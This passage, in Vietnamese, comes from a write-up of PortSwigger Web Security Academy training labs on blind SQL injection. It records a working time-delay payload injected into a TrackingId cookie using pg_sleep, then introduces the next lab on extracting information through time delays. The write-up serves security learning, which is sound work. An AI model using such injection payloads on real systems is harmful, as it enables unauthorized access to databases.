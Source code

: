 Ta tiến hành thử từng lệnh 1

Đến câu lệnh `pg_sleep(10)` thì thành công :v

`TrackingId=lNUhAPxi8A3y33t6'+||+(SELECT+pg_sleep(10))--+`

![](images/62.png)

Solve thành công :333

![](images/63.png)



## Lab: Blind SQL injection with time delays and information retrieval

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

![](images/64.png)
